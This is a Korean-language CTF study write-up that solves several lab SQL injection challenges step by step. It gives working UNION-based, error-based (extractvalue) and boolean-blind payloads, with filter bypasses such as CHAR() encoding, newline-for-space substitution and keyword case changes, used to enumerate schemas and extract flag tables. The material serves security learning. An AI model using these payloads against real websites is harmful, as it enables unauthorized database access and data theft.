# 웹해킹 스터디 6주차: UNION SELECT & Blind SQL Injection

## 개요

- 이 문서는 웹해킹 스터디 5주차 과제로 수행한 UNION SELECT 기반 SQL Injection 공격 실습 내용을 정리한 것입니다.

---

## CTF 문제 풀이 정리

### SQL Injection 1



- 처음 페이지에서 검색어에 따라 `ID`, `Level`, `Rank Point`, `Rate`와 같은 게시판 정보가 출력되는 것을 확인했다. 예를 들어 **ID에는 `NORMALTIC`**, **Level에는 `52`** 등의 값이 출력되며 총 **4개의 정보**가 나타났다.

- 후에 이제 컬럼 수를 확인하기 위해 **normaltic'+order+by+5--+**를 입력했을 때 게시물이 출력되지 않았고,
**normaltic'+order+by+4--+**까지는 정상적으로 게시물이 출력되는 것을 확인하여 칼럼 수가 **4개**임을 유추할 수 있었다.



- 컬럼 수가 확인된 뒤, `UNION SELECT` 문을 통해 데이터를 삽입해보았다.
```html
normaltic'+union+select+database(),'lll',3,4--+
```
를 입력하자 검색 결과 중 하나에 **sqli_1**이라는 문자열이 출력되었고, 이를 통해 현재 사용 중인 데이터베이스의 이름이 **sqli_1**임을 확인할 수 있었다.

- 이후 `information_schema.tables`를 활용하여 데이터베이스 내 존재하는 테이블 이름을 확인했다. 
```html
normaltic'+union+select+1,'lll',3,(select+table_name+from+information_schema.tables+where+table_schema='sqli_1'+limit+0,1)--+ 
```
쿼리를 통해 **flag_table**이라는 테이블 이름을 추출할 수 있었다.

- 마찬가지로 `information_schema.columns`를 사용하여 해당 테이블의 컬럼 이름을 찾기 위해 
```html
normaltic'+union+select+1,'lll',3,(select+column_name+from+information_schema.columns+where+table_schema='sqli_1'+and+table_name='flag_table'+limit+0,1)--+
```
를 입력했고, **flag**라는 컬럼명을 알아낼 수 있었다.

- 마지막으로 실제 데이터를 확인하기 위해 
```html
normaltic'+union+select+1,'lll',3,(select+flag+from+flag_table+limit+0,1)--+
```
쿼리를 사용하면



- **flag를 획득**하였다.

---

### SQL Injection 2 



- 이번 페이지는 검색어(`ID`)를 입력하면 해당 `ID`에 대한 게시판 정보가 출력되는 구조였으며, **ID 값은 무조건 입력한 그대로 출력**된다.
- 실제 DB에 존재하지 않더라도 게시판은 항상 최소 하나의 데이터를 출력한다는 특징이 있었고, **정상적인 데이터일 경우 'Info'라는 문구가 출력**되는 것을 확인할 수 있었다.

- 먼저 컬럼 수를 유추하기 위해 `ORDER BY` 구문을 사용하였다.
**normaltic'+order+by+6%23** 를 입력했을 때 게시물이 정상 출력되었고,
**normaltic'+order+by+7%23** 을 입력하면 게시물이 출력되지 않아, 해당 SELECT 문은 **6개의 컬럼**으로 구성되어 있다는 것을 확인하였다.



- 이후 `UNION SELECT` 구문을 통해 데이터 삽입이 가능한지 확인하였다.
아래의 페이로드를 사용하자 검색 결과 중 하나에 현재 사용 중인 데이터베이스 이름이 출력되었다.

```html
'+union+select+1,2,3,4,5,database()%23
```

- 출력 결과를 통해 현재 데이터베이스 이름은 **sqli_5**임을 확인하였다.

- 이어서 `information_schema.tables`를 활용하여 데이터베이스 내 테이블 이름을 조회하였다.
- 다음과 같은 쿼리를 통해 세 번째 테이블(**LIMIT 2,1**)을 조회한 결과, 테이블 이름으로 **secret**이 출력되었다.

```html
'+union+select+1,2,3,4,5,(select+table_name+from+information_schema.tables+where+table_schema='sqli_5'+limit+2,1)%23
```

- `information_schema.columns`를 사용하여 `secret` 테이블의 컬럼명을 확인하기 위해 다음과 같은 쿼리를 입력하였다.

```html
'+union+select+1,2,3,4,5,(select+column_name+from+information_schema.columns+where+table_schema='sqli_5'+and+table_name='secret'+limit+0,1)%23
```

- 그 결과, 해당 테이블에는 **flag**라는 컬럼이 존재함을 확인하였다.

- 마지막으로, 다음과 같은 쿼리를 통해 실제 **flag 값**을 추출하였다.

```html
'+union+select+1,2,3,4,5,(select+flag+from+secret+limit+1,1)%23
```



이렇게 **flag를 획득** 하였다.

---

## 8기 보너스

### 도박 관리자



- 처음 게시판은 다음과 같은 형태로 구성되어 있다.

- 사용자가 직접 입력할 수 있는 검색창이나 입력 필드는 보이지 않았기 때문에, **Burp Suite를 이용해 내부적으로 전달되는 파라미터가 있는지** 확인해보았다. 이를 통해 서버가 어떤 인자를 받아 처리하는지 파악하고자 하였다.



- Burp Suite로 트래픽을 분석한 결과,
`/spec1/game_info.php` 경로에서 `game_name`이라는 **GET 파라미터**를 통해 게임 정보를 전달받고 있는 것을 확인할 수 있었다.

이제 이 `game_name` 파라미터를 이용하여 SQL Injection을 시도해볼 것이다.

- 앞서 확인한 `game_name` 파라미터에 대해 SQL Injection 가능 여부를 테스트해보기 위해 **논리 조건을 이용한 인젝션**을 시도하였다.

- **Lucky%20Slots'%20and%20'1'='1**이라는 SQL 구문을 시도하자 **정상적인 게임 정보가 출력**되었고,
반대로 **Lucky%20Slots'%20and%20'1'='2**와 같은 거짓 조건을 넣었을 때는 **게임 정보가 출력되지 않았다**.

- `game_name` 파라미터를 대상으로 `ORDER BY` 구문을 이용해 `SELECT` 문에서 사용되는 **컬럼의 개수**를 확인해보았다.
```html
Lucky%20Slots'%20order%20by%2013--+
```
위 페이로드를 삽입 후 요청 결과
```json
"error": "Database error",
"message": "SQLSTATE[42S22]: Column not found: 1054 Unknown column '13' in 'order clause'"
```
- 이 에러는 **SELECT 문에서 13번째 컬럼이 존재하지 않음**을 의미한다. 따라서 컬럼 수가 13보다 적다는 것을 알 수 있다.

이후 다음 페이로드를 삽입 후 요청 결과
```html
Lucky%20Slots'%20order%20by%2012--+
```

- 이번에는 정상적으로 게임 정보가 출력되었으며, 이를 통해 해당 **SELECT 문은 총 12개의 컬럼을 사용하고 있음**을 확인할 수 있었다.

후에 이제 `UNION SELECT` 문을 통해 데이터베이스 정보를 추출해보았다.



```html
Lucky%20Slots'%20union%20select%201,2,3,4,5,6,7,8,9,10,11,database()--+
```

- 출력 결과를 통해 현재 사용 중인 데이터베이스는 **spec1**임을 확인할 수 있었다.

- 후에 이제 `information_schema.tables`를 이용해 데이터베이스 spec1 내의 테이블 목록을 확인해보았다.

- 다음과 같은 쿼리를 통해 세 번째 테이블(**LIMIT 2,1**)을 조회한 결과, 테이블 이름으로 **secret_flags**가 출력되었다.

```html
Lucky%20Slots'%20union%20select%201,2,3,4,5,6,7,8,9,10,11,(select+table_name+from+information_schema.tables+where+table_schema='spec1'+limit+2,1)--+
```

- 이후, `secret_flags` 테이블 내부에 어떤 컬럼들이 존재하는지 확인하기 위해 `information_schema.columns`를 조회하였다.

```html
Lucky%20Slots'%20union%20select%201,2,3,4,5,6,7,8,9,10,11,(select+column_name+from+information_schema.columns+where+table_schema='spec1'+and+table_name='secret_flags'+limit+?,1)--+
```

- 쿼리 실행 결과, 각각 **id, flag_name, flag_value**라는 컬럼명을 확인할 수 있었다.

- 마지막으로, 이전 단계에서 확인한 `flag_value` 컬럼으로부터 실제 데이터를 추출하기 위해 다음과 같은 쿼리를 사용하였다.

```html
Lucky%20Slots'%20union%20select%201,2,3,4,5,6,7,8,9,10,11,(select+flag_value+from+secret_flags+limit+1,1)--+ 
```

결과


- **flag**를 얻을 수 있었다.

---

### SNS 해킹 1


- 이 게시판도 사용자가 직접 입력할 수 있는 검색창이나 파라미터 입력란이 존재하지 않았다.
따라서 이전과 마찬가지로 Burp Suite를 활용하여 트래픽을 분석하고, 서버로 전달되는 파라미터가 있는지 확인해보았다.



- 페이지 코드 상에서는 사용자가 직접 쿼리 문자열을 조작할 수 있는 입력 필드는 존재하지 않았다.
그러나 JavaScript 코드를 분석한 결과, **post.php?id= 및 comments.php?post_id=** 형태로 동작하는 요청이 존재함을 확인할 수 있었다.

- `post.php?id=` 파라미터가 서버로 전달되는 것을 확인한 뒤, 이 인자에 대해 **SQL Injection 시도를 진행**하였다.

```html
13+and+1=1--+
```

- 이후 `ORDER BY` 구문을 이용해 **SELECT 문에서 사용되는 컬럼의 개수**를 파악한 뒤, `UNION SELECT`를 통해 **데이터베이스 이름**을 추출하였다.

> ORDER BY 컬럼 수 확인
```html
13+order+by+8--+
```

> 데이터베이스 이름 추출
```html
13+union+select+database(),2,3,4,5,6,7,8--+
```



> 데이터베이스 이름 **spec2**

- 이제 `information_schema.tables`를 이용해 데이터베이스 spec2 내의 테이블 목록을 확인해보았다.

```html
13+union+select+(select+table_name+from+information_schema.tables+where+table_schema='spec2'+limit+2,1),2,3,4,5,6,7,8--+
```

- 쿼리 실행 결과, 테이블 이름으로 **secret_flags**가 출력되었고, 이후 이 테이블을 대상으로 컬럼 및 데이터를 조회할 수 있었다.

- 이후 `information_schema.columns`를 사용하여 `secret_flags` 테이블의 컬럼명을 확인하기 위해 다음과 같은 쿼리를 입력하였다.

```html
13+union+select+(select+column_name+from+information_schema.columns+where+table_schema='spec2'+and+table_name='secret_flags'+limit+?,1),2,3,4,5,6,7,8--+
```

- 쿼리 실행 결과, 아까랑 같은 **id, flag_name, flag_value**라는 컬럼명을 확인할 수 있었다.

- 이후 `secret_flags` 테이블에서 실제 플래그 값을 추출하기 위해, `UNION SELECT`와 서브쿼리를 조합한 다음의 SQL 인젝션을 시도하였다.

```html
13+union+select+(select+flag_name+from+secret_flags+limit+5,1),2,3,4,5,6,7,8--+

13+union+select+(select+flag_value+from+secret_flags+limit+5,1),2,3,4,5,6,7,8--+
```

- 이 결과를 통해 `flag_name` 의 5번째 행이 **`real_flag`**임을 확인할 수 있었고, 나머지 행들은 모두 `fake_flag`로 설정되어 있었다.



**이렇게 flag를 얻었다.**

---

### SNS 해킹 2

- 아까랑 똑같은 게시판 이다. 관리자가 화가 단단히 났다고 한다.

- JavaScript 코드를 분석한 결과, SNS 해킹 1 문제랑 똑같은 **post.php?id= 및 comments.php?post_id=** 형태로 동작하는 요청이 존재함을 확인할 수 있었다.

- 이번에도 `post.php?id=` 파라미터로 **SQL Injection 시도를 진행**하였다.

- 하지만 이번 `post.php?id=` 파라미터는 입력값에서 맨 앞의 숫자만 파싱되는 동작을 보이며, `AND`, `OR`, `ORDER BY` 등의 구문을 뒤에 붙여도 영향을 주지 않는다.

- 따라서 이 파라미터에서는 더 이상의 SQL Injection 시도가 의미가 없다고 판단하였고, 대신 **`comments.php?post_id=` 파라미터를 대상으로 취약점 공략**을 이어가기로 하였다.

- 이후 `ORDER BY` 구문을 이용해 **SELECT 문에서 사용되는 컬럼의 개수**를 파악한 뒤, `UNION SELECT`를 통해 **데이터베이스 이름**을 추출하였다.

> ORDER BY 컬럼 수 확인
```html
2+order+by+5--+ 
```

> UNION SELECT 데이터베이스 추출
```html
-1+union+select+database(),2,3,4,5--+
```



> 데이터베이스 이름 **spec3**

- 후에 이제 `information_schema.tables`를 이용해 데이터베이스 `spec3` 내의 테이블 목록을 확인해보았다.

```html
-1+union+select+(select+table_name+from+information_schema.tables+where+table_schema='spec3'+limit+0,1),2,3,4,5--+
```

- **문자열 리터럴을 포함한 SQL 구문(`'spec3'`)**을 삽입하려 하자, **"error":"Invalid character detected"** 메시지가 출력되며 필터링이 작동하였다. 

- 이를 우회하기 위해 `'spec3'`을 직접 입력하는 대신, 아래와 같이 `CHAR()` 함수를 사용한 **ASCII 기반 문자열 생성 방식**으로 접근하였다.


```html
-1+union+select+(select+table_name+from+information_schema.tables+where+table_schema=CHAR(115,112,101,99,51)+limit+2,1),2,3,4,5--+
```

- 쿼리 실행 결과, 테이블 이름으로 **secret_flags**가 출력되었고, 이후 이 테이블을 대상으로 컬럼 및 데이터를 조회할 수 있었다.

- 이제 `information_schema.columns`를 사용하여 `secret_flags` 테이블의 컬럼명을 확인하기 위해 다음과 같은 쿼리를 입력하였다. 

```html
-1+union+select+(select+column_name+from+information_schema.columns+where+table_schema=CHAR(115,112,101,99,51)+and+table_name=CHAR(115,101,99,114,101,116,95,102,108,97,103,115)+limit+2,1),2,3,4,5--+ 
```

- 쿼리 실행 결과, 각각 **id, flag_name, flag_value**라는 컬럼명을 확인할 수 있었다.

- 이후 `flag_value` 컬럼에서 실제 플래그 값을 추출하기 위해, `UNION SELECT`와 서브쿼리를 조합한 다음의 SQL 인젝션을 시도하였다.

```html
-1+union+select+(select+flag_name+from+secret_flags+limit+5,1),2,3,4,5,6,7,8--+

-1+union+select+(select+flag_value+from+secret_flags+limit+5,1),2,3,4,5,6,7,8--+
```

- 아까와 똑같이 `flag_name` 의 5번째 행이 **`real_flag`**임을 확인할 수 있었고, 나머지 행들은 모두 `fake_flag`로 설정되어 있었다.



이렇게 **flag**를 얻어냈다.

---

### 테마 고르기



- 이번 문제는 사용자가 직접 테마를 선택하여 **UI 색상 조합을 적용해보는 테마 커스터마이저 기능**으로 구성되어 있었고, 페이지에서는 Dark, Light, Neon, Minimal, Cyber와 같은 프리셋 버튼을 제공하며 선택된 테마는 실시간으로 "Theme Preview" 영역에 적용되고, 아래에는 **JSON 형식의 현재 설정 값**이 표시되도록 구성되어 있다.



- Burp Suite로 `/spec4/theme.php` 요청을 확인한 결과,
클라이언트가 보낸 `Cookie` 헤더 내의 `user_theme=neon` 값이 서버에서 그대로 파싱되어,
응답 본문 내 `theme_name` 및 `theme_settings` 필드에 **JSON 형식**으로 삽입되고 있었다.

이를 기반으로 **쿠키에 포함된 `user_theme` 파라미터를 이용해 SQL Injection 가능성을 테스트**해보았다.

- `user_theme` 쿠키 값을 조작하여 SQL Injection을 시도하던 중,
**일반적인 공백 문자 (`%20`)는 필터링되거나 무시되고**, `--`, `#` 등 주석 구문도 차단되고 있는 것을 확인하였다.
그러나 개행 문자 (%0a) 는 필터링되지 않고 그대로 처리되었으며, 이를 이용해 다음과 같은 페이로드로 SQL Injection에 성공하였다.

```html
neon'%0aand%0a'1'='1
```

- 이 결과를 통해 **공백 및 주석 필터링을 우회하는 기법으로 `%0a` 기반의 인젝션이 유효함**을 확인할 수 있었다.

- 이번에는 **에러 메시지를 이용한 SQL Injection 기법**으로 접근을 시도하였다.

> 데이터베이스 이름 추출
```html
neon'%0aor%0aextractvalue(1,concat(0x7e,database()))%0aand%0a'1'='1
```



> 데이터베이스 이름 **spec4**

- 이후 테이블 이름을 추출하기 위해 `information_schema.tables`를 대상으로 쿼리를 시도하였다.
하지만 소문자 `select` 키워드에 필터링이 적용되어 있어, **대문자 `SELECT`를 사용하여 우회**하였다. 

```html
neon'%0aor%0aextractvalue(1,concat(0x7e,(SELECT%0atable_name%0afrom%0ainformation_schema.tables%0awhere%0atable_schema='spec4'%0alimit%0a0,1)))%0aand%0a'1'='1
```

- 쿼리 실행 결과, 테이블 이름으로 **flags**가 출력되었고, 이후 이 테이블을 대상으로 컬럼 및 데이터를 조회할 수 있었다.

- 이제 이어서 컬럼 이름과 테이블 내 데이터를 순차적으로 추출해볼 예정이다, 우선 `information_schema.columns`를 사용하여 `flags` 테이블의 컬럼명을 확인하기 위해 다음과 같은 쿼리를 입력하였다.

```html
neon'%0aor%0aextractvalue(1,concat(0x7e,(SELECT%0acolumn_name%0afrom%0ainformation_schema.columns%0awhere%0atable_schema='spec4'%0aand%0atable_name='flags'%0alimit%0a0,1)))%0aand%0a'1'='1
```

- `information_schema.columns`를 활용한 쿼리 결과,
`flags` 테이블에는 `flag_id`, `flag`, `description`, `created_at` 컬럼이 존재함을 확인하였다.

- 최종적으로 다음과 같은 **에러 기반 SQL Injection 페이로드**를 이용하여 flag 값을 추출하였다.

```html
neon'%0aor%0aextractvalue(1,concat(0x7e,(SELECT%0aflag%0afrom%0aflags%0alimit%0a0,1)))%0aand%0a'1'='1
```



- 플래그를 추출하는 과정에서 응답 길이 제한으로 인해 일부 값이 잘려 출력되는 문제가 발생하였다. 이를 해결하기 위해, 아래와 같은 쿼리를 사용하여 flag 값의 뒷부분을 `substring()` 함수를 통해 분할 추출하였다.

```html
neon'%0aor%0aextractvalue(1,concat(0x7e,(SELECT%0asubstring(flag,31,32)%0afrom%0aspec4.flags%0alimit%0a0,1)))%0aand%0a'1'='1
```

**이렇게 최종 flag를 얻었다.**

---

### 보안 커뮤니티




- 해당 페이지는 보안 관련 커뮤니티 게시판으로 보이며, 상단에는 게시글을 검색할 수 있는 **Search 입력창**이 존재한다.
전반적인 UI 구성과 문제의 흐름상, 검색 기능을 통해 **SQL Injection 공격을 시도해보는 것이 의도된 것으로 판단**된다.

- 우선 Burp Suite를 활용하여 **검색 요청 시 전달되는 파라미터를 분석**해보았다.



- 검색 파라미터로 `q=sql`, `q=ql` 등을 넣었을 때 동일한 결과가 출력되는 것으로 보아,
내부적으로 **SQL의 `LIKE` 문을 사용한 검색 로직**이 적용되어 있는 것으로 추정된다.

- `LIKE` 문을 활용한 SQL Injection을 시도한 결과, 다음과 같은 페이로드를 통해 게시물이 정상적으로 출력되었다.

```html
ql%'+Or+'1%'='1
```

- 이를 통해 **검색 기능에 SQL Injection이 가능한 상태임을 확인하였고,
`or` 키워드는 필터링되고 있었지만, 대소문자를 구분하지 않는 SQL 문법의 특성을 이용해 `Or`로 우회**할 수 있었다.

- 우선 `Boolean-Based Blind SQL Injection` 쿼리를 구성해 실행해보았다.

```html
33333%'+Or+if(ascii(substring((select+database()),1,1))=115,1,0)+and+'1%'='1
```

- **Content-Length의 응답 패턴**
    - 조건이 참일 경우: **Content-Length: 2296**
    - 조건이 거짓일 경우: **Content-Length: 16**

- 응답의 **`Content-Length`가 16일 경우를 거짓 조건의 기준으로 판단**하고,
이를 활용한 `Boolean-Based Blind SQL Injection`을 통해 자동화를 작성하여 한 글자씩 추출해 볼 것이다.



- 이 파이썬 코드로 추출을 진행 하였다.



> 데이터베이스 이름 **spec5**

- 추출한 데이터베이스 이름을 기반으로, `information_schema.tables`를 이용해 내부 테이블 목록을 확인해볼 것 이다.

```html
33333%' Or if(ascii(substr((select table_name from infOrmation_schema.tables where table_schema='spec5' limit {j},1),{i},1))={ascii},1,0) and '1%'='1"
```



- 위와 같은 방식으로 파이썬 코드를 약간 수정하여, 테이블 목록을 추출하는 스크립트를 작성하였다.



- 확인된 테이블 이름
  - comments
  - flags
  - posts

- 이제 `flags` 테이블의 컬럼을 확인하기 위해, `information_schema.columns`를 활용한 스크립트를 작성할 것이다.

```html
33333%' Or if(ascii(substr((select column_name from infOrmation_schema.columns where table_schema='spec5' and table_name='flags' limit {j},1),{i},1))={ascii},1,0) and '1%'='1
```



- 확인된 테이블 이름
    - comments
    - flags
    - description
    - created_at

- 이제 마지막 단계로, `flags` 테이블의 컬럼에서 실제 데이터를 추출해보았다.

```html
33333%' Or if(ascii(substr((select flag from flags limit {j},1),{i},1))={ascii},1,0) and '1%'='1
```



> 이렇게 마지막 문제까지 모두 마무리 했다.

- 사용한 파이썬 스크립트: [boolean_based.py](./boolean_based.py)

---

## 느낀 점

이번 웹해킹 과제를 통해 다양한 SQL Injection 문제들을 직접 해결해보면서, 이전보다 **한 단계 실력이 향상되었다는 체감**이 들었다.
무엇보다도, 단순한 이론이 아닌 실제 상황에서 다양한 우회 기법을 적용해보는 과정이 매우 흥미로웠고,
"이렇게도 우회가 되는구나"라는 새로운 인사이트를 많이 얻을 수 있었다.

단순히 취약점을 찾는 데에 그치지 않고, **어떤 필터링이 적용되어 있는지 분석하고 이를 우회하는 방법을 고민하는 과정**이 가장 큰 공부가 되었으며, 앞으로도 이런 실전 중심의 문제 풀이를 꾸준히 이어가고 싶다는 생각이 들었다.
